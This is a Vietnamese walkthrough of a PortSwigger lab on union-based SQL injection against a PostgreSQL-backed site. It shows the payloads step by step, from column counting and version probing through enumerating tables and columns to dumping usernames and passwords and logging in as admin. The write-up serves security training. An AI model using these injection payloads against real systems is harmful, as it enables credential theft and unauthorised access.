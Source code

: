 ## SQL injection attack, listing the database contents on non-Oracle databases

Tiếp tục thực hiện inject query vào sau url **' order by 2--** (tới 3 là lỗi) do web load bình thường ta biết được database vẫn có 2 trường.

Tiếp tục truy vấn ra tên cơ sở dữ liệu từng lệnh như trong cheatsheet để xác định cơ sở dữ liệu nào.  

> **' union select version(),NULL--**

![](/imgs/SQL-Injection/22.png?raw=true)

Lab yêu cầu ta phải đăng nhập bằng tài khoản trong bảng user nên ta phải biết bảng user tên là gì trong database

Câu query list tất cả các table trong Postgres: SELECT * FROM information_schema.tables
Nhưng chúng ta không thể select * để lấy tất cả được vì sẽ bị lỗi trên url => cho nên chúng ta sẽ sử dụng các column name đặc biệt trong Postgres.

(https://www.postgresql.org/docs/9.5/infoschema-columns.html)

![](/imgs/SQL-Injection/23.png?raw=true)

Sau khi thực hiện truy vấn **' UNION SELECT table_name,NULL%20 FROM information_schema.tables--**

![](/imgs/SQL-Injection/24.png?raw=true)

Chúng ta sẽ tìm tới bảng users, do sẽ có nhiều bảng user nên thường ngta sẽ đặt tên bảng là số nhiều nên chúng ta chỉ chú ý trước những bảng này để select.

Ở đây mình sẽ select bảng **users_tucmxy**

Dựa theo [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) lệnh select ra các trường có trong bảng sẽ là

> **SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'**

Áp dụng vào
> **' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_tucmxy--**

Chúng ta sẽ thu được 2 trường **username_sxdvlv** và **password_pnxobl**

![](/imgs/SQL-Injection/25.png?raw=true)

Chúng ta đã biết được tên các trường và tên bảng, tiến hành select ra data
> **' UNION SELECT username_sxdvlv,password_pnxobl from users_tucmxy--**

![](/imgs/SQL-Injection/26.png?raw=true)

Login vào tài khoản admin là solve

![](/imgs/SQL-Injection/27.png?raw=true)





